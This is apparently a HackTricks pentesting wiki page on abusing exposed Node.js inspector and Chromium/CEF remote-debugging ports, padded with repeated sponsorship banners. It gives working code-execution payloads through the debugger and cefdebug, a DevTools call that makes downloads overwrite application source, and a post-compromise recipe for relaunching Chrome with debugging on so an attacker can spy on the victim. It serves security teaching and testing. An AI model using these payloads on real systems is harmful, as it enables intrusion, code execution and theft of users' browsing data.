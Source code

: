 

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


# Node inspector/CEF debug abuse

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Node inspector/CEF debug abuse

### Basic Information

When started with the `--inspect` switch, a Node.js process listens for a debugging client. By **default**, it will listen at host and port **`127.0.0.1:9229`**. Each process is also assigned a **unique** **UUID**.

Inspector clients must know and specify host address, port, and UUID to connect. A full URL will look something like `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`.

{% hint style="warning" %}
Since the **debugger has full access to the Node.js execution environment**, a malicious actor able to connect to this port may be able to execute arbitrary code on behalf of the Node.js process (**potential privilege escalation**).
{% endhint %}

There are several ways to start an inspector:

```bash
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```

When you start an inspected process something like this will appear:

```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```

Processes based on **CEF** (**Chromium Embedded Framework**) like need to use the param: `--remote-debugging-port=9222` to open de **debugger** (the SSRF protections remain very similar). However, they **instead** of granting a **NodeJS** **debug** session will communicate with the browser using the [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/), this is an interface to control the browser, but there isn't a direct RCE.

When you start a debugged browser something like this will appear:

```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```

#### Browsers, WebSockets and same-origin policy <a href="#browsers-websockets-and-same-origin-policy" id="browsers-websockets-and-same-origin-policy"></a>

Websites open in a web-browser can make WebSocket and HTTP requests under the browser security model. An **initial HTTP connection** is necessary to **obtain a unique debugger session id**. The **same-origin-policy** **prevents** websites from being able to make **this HTTP connection**. For additional security against [**DNS rebinding attacks**](https://en.wikipedia.org/wiki/DNS\_rebinding)**,** Node.js verifies that the **'Host' headers** for the connection either specify an **IP address** or **`localhost`** or **`localhost6`** precisely.

{% hint style="info" %}
This **security measures prevents exploiting the inspector** to run code by **just sending a HTTP request** (which could be done exploiting a SSRF vuln).
{% endhint %}

#### Starting inspector in running processes

You can send the **signal SIGUSR1** to a running nodejs process to make it **start the inspector** in the default port. However, note that you need to have enough privileges, so this might grant you **privileged access to information inside the process** but no a direct privilege escalation.

```bash
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```

{% hint style="info" %}
This is useful in containers because **shutting down the process and starting a new one** with `--inspect` is **not an option** because the **container** will be **killed** with the process.
{% endhint %}

#### Connect to inspector/debugger

If you have access to a **Chromium base browser** you can connect accessing `chrome://inspect` or `edge://inspect` in Edge. Click the Configure button and ensure your **target host and port** are listed (Find an example in the following image of how to get RCE using one of the next sections examples).

![](<../../.gitbook/assets/image (620) (1).png>)

Using the **command line** you can connect to a debugger/inspector with:

```bash
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```

The tool [**https://github.com/taviso/cefdebug**](https://github.com/taviso/cefdebug), allows to **find inspectors** running locally and **inject code** into them.

```bash
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```

{% hint style="info" %}
Note that **NodeJS RCE exploits won't work** if connected to a browser via [**Chrome DevTools Protocol**](https://chromedevtools.github.io/devtools-protocol/) \*\*\*\* (you need to check the API to find interesting things to do with it).
{% endhint %}

### RCE in NodeJS Debugger/Inspector

{% hint style="info" %}
If you came here looking how to get [**RCE from a XSS in Electron please check this page.**](../../pentesting/pentesting-web/xss-to-rce-electron-desktop-apps/)
{% endhint %}

Some common ways to obtain **RCE** when you can **connect** to a Node **inspector** is using something like (looks that this **won't work in a connection to Chrome DevTools protocol**):

```javascript
process.mainModule.require('child_process').exec('calc')
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require('child_process').spawnSync('calc.exe')
Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))
```

### Chrome DevTools Protocol Payloads

You can check the API here: [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)\
In this section I will just list interesting things I find people have used to exploit this protocol.

#### Overwrite Files

Change the folder where **downloaded files are going to be saved** and download a file to **overwrite** frequently used **source code** of the application with your **malicious code**.

```javascript
ws = new WebSocket(url); //URL of the chrome devtools service
ws.send(JSON.stringify({
    id: 42069,
    method: 'Browser.setDownloadBehavior',
    params: {
        behavior: 'allow',
        downloadPath: '/code/'
    }
}));
```

#### Webdriver RCE and exfiltration

According to this post: [https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148](https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148) it's possible to obtain RCE and exfiltrate internal pages from theriver.

#### Post-Exploitation

In a real environment and **after compromising** a user PC that uses Chrome/Chromium based browser you could launch a Chrome process with the **debugging activated and port-forward the debugging port** so you can access it. This way you will be able to **inspect everything the victim does with Chrome and steal sensitive information**.

The stealth way is to **terminate every Chrome process** and then call something like

```bash
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```

### References

* [https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s](https://www.youtube.com/watch?v=iwR746pfTEc\&t=6345s)
* [https://github.com/taviso/cefdebug](https://github.com/taviso/cefdebug)
* [https://iwantmore.pizza/posts/cve-2019-1414.html](https://iwantmore.pizza/posts/cve-2019-1414.html)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=773](https://bugs.chromium.org/p/project-zero/issues/detail?id=773)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1742](https://bugs.chromium.org/p/project-zero/issues/detail?id=1742)
* [https://bugs.chromium.org/p/project-zero/issues/detail?id=1944](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944)
* [https://nodejs.org/en/docs/guides/debugging-getting-started/](https://nodejs.org/en/docs/guides/debugging-getting-started/)
* [https://chromedevtools.github.io/devtools-protocol/](https://chromedevtools.github.io/devtools-protocol/)
* [https://larry.science/post/corctf-2021/#saasme-2-solves](https://larry.science/post/corctf-2021/#saasme-2-solves)
* [https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>


<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>




<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>



